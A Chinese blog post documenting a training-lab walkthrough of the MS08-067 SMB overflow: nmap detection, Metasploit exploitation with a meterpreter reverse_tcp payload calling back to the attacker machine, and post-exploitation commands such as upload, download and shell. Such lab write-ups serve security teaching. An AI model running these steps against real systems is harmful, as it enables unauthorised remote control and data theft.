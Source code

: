 ```yaml
---
layout:     post
title:      MS08-067远程溢出漏洞
subtitle:   CVE-2008-4250
date:       2018-05-09
author:     Waldo
header-img: img/post-bg-swift2.jpg
catalog: true
tags:
    - web安全 
    
---
```


[使用i春秋环境实验](https://www.ichunqiu.com/vm/61591/1)
#### 实验环境

*   操作机 ：`Kali 2017`

*   操作机IP：`172.16.11.2`

*   目标机：`Windows XP S2 中文版`

*   目标机IP：`172.16.12.2`

#### 实验目的

*   认知Windows远程溢出漏洞的危害

*   知悉MS08-067漏洞的发现和验证过程

*   学习Metasploit工具的使用

#### 实验工具

`Nmap`:端口扫描探测工具，用于探测端口开放情况，本次使用其端口扫描和漏洞扫描功能

`mestasploit`：开源的渗透测试框架软件、综合型漏洞利用工具，本次实验使用其漏洞利用模块、meterpreter组件

#### 实验内容

**漏洞原理简述**

MS08-067 漏洞是通过MSRPC over SMB通道调用Server程序中的NEtPathCanonicalize函数时触发的。

NetPathCanonicalize 函数在远程访问其他主机时，会调用NetpwPathCanonicalize函数，对远程访问的路径进行规范化，而在NetpwPathCanonicalize函数中发生了栈缓冲区内存错误，造成可被利用实施远程代码执行。

#### 实验步骤

#### 第1步 漏洞探测

打开Kali终端，使用Nmap对目标机开放端口进行扫描

```
nmap  -sV -Pn 172.16.12.2

```

[![nmap_sV2](http://upload-images.jianshu.io/upload_images/7216746-43e89d15af6c2aeb.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)](https://static2.ichunqiu.com/icq/resources/fileupload/61591/nmap_sV2.png) 

目标机开放了`135``139``445``3389`端口，且目标机系统为Windows_XP。一想到XP或者2003系统的`445`端口开放，我们就能想到轰动一时的ms08-067。

我们使用nmap的漏洞扫描脚本查看漏洞是否可用

```
nmap -sV -Pn -p 445 --script smb-vuln-ms08-067.nse 172.16.12.2

```

[![nmap_vul](http://upload-images.jianshu.io/upload_images/7216746-6eb05ffe718de52f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)](https://static2.ichunqiu.com/icq/resources/fileupload/61591/nmap_vul.png) 

扫描结果`VULNERABLE`,可以利用

> nmap漏扫脚本目录：/usr/share/nmap/script/ 可自行查看其它脚本

#### 第2步 漏洞利用

终端内输入`msfconsole`打开 metasploite 命令行客户端，使用`search`命令查找ms08-067的漏洞利用模块

```
search ms08-067

```

使用`use`命令选择我们要使用的利用模块

[![msf_use](http://upload-images.jianshu.io/upload_images/7216746-f35d913472435369.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)](https://static2.ichunqiu.com/icq/resources/fileupload/61591/msf_use.png) 

在运行该模块之前，一般需要设置相关选项，我们使用`show options`查看配置信息

[![msf_show01](http://upload-images.jianshu.io/upload_images/7216746-7bd9e51a5a9c5552.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)](https://static2.ichunqiu.com/icq/resources/fileupload/61591/msf_show01.png) 

需要设置目标地址，设置命令：

```
set RHOST 172.16.12.2

```

之后，选择载荷`payload`，也就是`shellcode`,此处我们选择回连至控制端shell的payload

```
set payload  windows/meterpreter/reverse_tcp

```

当然载荷也需要进行配置，所以我们选择渗透所用的载荷后，同样使用`show options`查看配置信息

[![show](http://upload-images.jianshu.io/upload_images/7216746-707e4815ebc053dc.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)](https://static2.ichunqiu.com/icq/resources/fileupload/61591/show.png) 

配置中缺少本地主机 RHOST，设置一下

```
set LHOST 172.16.11.2

```

MS08-067 针对不同的系统可以选择不同的`target`,使用命令`show targets`可以看见支持的系统

[![targets](http://upload-images.jianshu.io/upload_images/7216746-1bee3db92d44191d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)](https://static2.ichunqiu.com/icq/resources/fileupload/61591/targets.png) 

我们选择此次目标机的系统，编号10 `set target 10`

完成配置后，运行`exploit`,开始执行漏洞利用模块

[![exploit](http://upload-images.jianshu.io/upload_images/7216746-15137481b4ccbfa0.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)](https://static2.ichunqiu.com/icq/resources/fileupload/61591/exploit.png) 

成功获取来自目标主机的Session会话

#### 第3步：Meterpreter常用命令

我们已经成功的获取Session会话了，接下来，我们使用`meterpreter`的一些常用基本功能

**`sysinfo`**

使用`sysinfo`命令可以查看目标系统的基本信息

[![sysinfo](http://upload-images.jianshu.io/upload_images/7216746-4576e0188b8834f5.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)](https://static2.ichunqiu.com/icq/resources/fileupload/61591/sysinfo.png) 

**`route`**

`route`命令用于显示目标主机的路由信息，通常用来探测目标机的网络情况，有助于网络拓扑的构建

[![route](http://upload-images.jianshu.io/upload_images/7216746-8583154363575129.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)](https://static2.ichunqiu.com/icq/resources/fileupload/61591/route.png) 

**`upload` / `download`**

Meterpreter的`upload`和`download`命令可以上传文件到目标机器上，或下载文件至本地 （图中1.txt为自己新建的文件，内容任意）

[![download](http://upload-images.jianshu.io/upload_images/7216746-9fcb06819e7251f2.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)](https://static2.ichunqiu.com/icq/resources/fileupload/61591/download.png) 

> 思考：利用上传我们可以干啥？比如上传netcat.exe文件

**`shell`**

`shell` 命令用于获取一个可以交互的shell，方便执行系统命令

[![shell](http://upload-images.jianshu.io/upload_images/7216746-be08286e798995d3.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)](https://static2.ichunqiu.com/icq/resources/fileupload/61591/shell.png) 

> 思考: 结合上传我们可以做很多有意思的事

#### 实验结果分析与总结

通过本次实验，我们学习了从发现漏洞、到验证漏洞、再到利用漏洞这一整个过程，并初步学习了Metasploit这一工具的使用。后续我们会进一步探索其他漏洞，结合实例去学习MSF后渗透模块的知识

#### 思考

*   如果目标机的扫描结果是Win7系统，并且修补了MS08-067漏洞，该怎样去做？

*   发现目标开启了3389，我们还有途径？
